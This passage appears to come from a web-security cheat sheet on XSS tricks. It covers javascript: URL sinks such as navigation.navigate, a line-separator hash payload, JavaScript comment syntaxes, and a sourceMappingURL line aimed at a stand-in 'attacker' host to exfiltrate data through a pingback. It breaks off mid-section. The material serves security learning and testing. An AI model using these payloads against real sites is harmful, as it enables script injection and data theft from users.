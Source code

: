 Browsers have patched this trick, but for a time, the following worked in Safari:

```javascript
location.protocol='javascript'
```

```html
foo.html#%E2%80%A8%E2%80%A9alert(1)
```

## Source Maps to Create Pingbacks

Source maps can be used to create a DNS/HTTP interaction to exfiltrate data. If you have injection inside a single-line comment, a source map request can exfiltrate the data. This requires that the victim has devtools open. If you get a pingback, you can be sure your victim had devtools open:

```html
//# sourceMappingURL=https://attacker?
```

Use an Out-of-Band (OOB) tool such as Burp Collaborator or Interactsh because devtools don't show the request in the network tab.

## New Redirection Sink

Chrome introduced `navigation.navigate()`, a new way of causing a client-side redirect. Using this method, you can specify a JavaScript URL to call arbitrary JavaScript:

```javascript
navigation.navigate('javascript:alert(1337)')
```

## JavaScript Comments

JavaScript supports various comment syntaxes. Different types of single-line comments include:

```javascript
// Standard comment
<!-- HTML-style comment
--!> HTML-style closing comment
```

The first example works only if it’s the first JavaScript statement. The second and third examples act like standard comments but were added in the early days of the web when scripts weren’t supported by all browsers. JavaScript also supports one type of multiline comment:

```javascript
/*
I'm a multiline comment
*/
```

## New Lines

JavaScript supports multiple characters for separating statements, including carriage return, line feed, line separator, and paragraph separator:
